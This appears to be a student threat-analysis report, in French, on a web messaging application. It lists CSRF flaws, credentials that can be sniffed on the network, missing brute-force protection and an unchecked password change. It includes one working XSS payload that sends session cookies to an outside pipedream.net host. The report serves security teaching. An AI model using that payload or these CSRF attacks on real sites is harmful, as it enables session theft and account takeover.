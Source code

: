 # STI — Analyse de menaces

* **Date** : 10.12.2019
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

* CSRF sur tous les formulaires ainsi que les liens, on a reussi à
  * supprimer n'importe quel message (via son id)
    * en chargeant l'url /delete.php?delete=<id>
  * executer une requete http pour lire n'importe quel message via son id
    * /read.php?message=131, mais impossible de lire le contenu depuis le navigateur mais si l'attaquant sniff le reseau il pourra voir le contenu du message
  * envoyer un message
    * 
  * changer son mdp
    * 
  * administration
  * réponse aux messages
  * suppression des messages
* Credentials obtenable en faisant de l'écoute sur le réseau
  * Nous pouvons obtenir le cookie de session ainsi que le login et le password
  * N'importe qui peut donc usurper l'identité d'un compte sur le réseau
* XSS dans message avec
    ```html
    <script>fetch('https://enons72ccci9o.x.pipedream.net/c' + document.cookie)</script>
    ```
* pas d'injections SQL car PDO::prepare/execute sont utilisés.
* pas de protection contre le bruteforce de mdp
* mot de passe actuel non demandé lors du changement de mdp (possibilité de changé le mdp lors d'un vol de session)